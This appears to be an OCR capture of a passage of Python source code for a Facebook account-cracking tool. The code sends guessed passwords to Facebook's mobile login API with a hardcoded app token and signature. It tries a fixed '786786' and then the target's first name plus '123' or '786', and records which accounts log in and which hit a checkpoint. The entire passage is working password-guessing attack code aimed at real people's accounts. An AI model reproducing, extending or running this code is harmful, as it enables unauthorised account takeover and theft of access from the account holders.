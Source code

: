 			j=json.loads(h.text)

			ps1=('786786')

			dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps1)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

			k=json.load(dt)

			if 'www.facebook.com' in k['error_msg']:

			    print(S+'[CP] ♡ '+user+' ♡ '+ps1)

			    cps.append(user+ps1)

			else:

			    if 'access_token' in k:

			        print (G+'[OK] ♡ '+user+' ♡ '+ps1)

			        oks.append(user+ps1)

			    else:

			        ps2=(j['first_name']+'123')

			        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps2)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

			        k=json.load(dt)

			        if 'www.facebook.com' in k['error_msg']:

			            print(S+'[CP] ♡ '+user+' ♡ '+ps2)

			            cps.append(user+ps2)

			        else:

			            if 'access_token' in k:

			                print(G+'[OK] ♡ '+user+' ♡ '+ps2)

			                oks.append(user+ps2)

			            else:

			                ps3=(j['first_name']+'786')

			                dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps3)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

			                k=json.load(dt)

			                if 'www.facebook.com' in k['error_msg']:

			                    print(S+'[CP] ♡ '+user+' ♡ '+ps3)

			                    cps.append(user+ps3)
